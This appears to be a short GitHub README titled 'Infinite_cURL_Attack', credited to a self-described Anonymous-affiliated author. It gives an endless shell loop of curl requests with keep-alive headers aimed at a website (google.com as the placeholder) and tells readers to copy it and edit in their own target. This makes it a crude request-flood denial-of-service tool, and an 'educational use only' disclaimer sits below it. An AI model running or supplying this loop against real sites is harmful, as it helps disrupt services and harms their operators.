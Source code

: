 <img src="https://i.pinimg.com/originals/23/a1/1f/23a11f14ab93d3ed4541960141e380ad.gif" width="200" alt="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." title="Security Tools by gh0$t. Affiliation : Anonymous (hacker group, global)." />  

# Infinite_cURL_Attack
Infinite cURL Attack  

**USAGE** : Copy-Paste-Edit the following code in the Terminal/CMD.
```
while (true); do curl -v --header "Connection: keep-alive" "https://www.google.com"; done;
```

**IMPORTANT:**  
THIS SOFTWARE IS PROVIDED FOR EDUCATIONAL USE ONLY!  
IF YOU ENGAGE IN ANY ILLEGAL ACTIVITY THE AUTHOR DOES NOT TAKE ANY RESPONSIBILITY FOR IT.  
BY USING THIS SOFTWARE YOU AGREE WITH THESE TERMS.
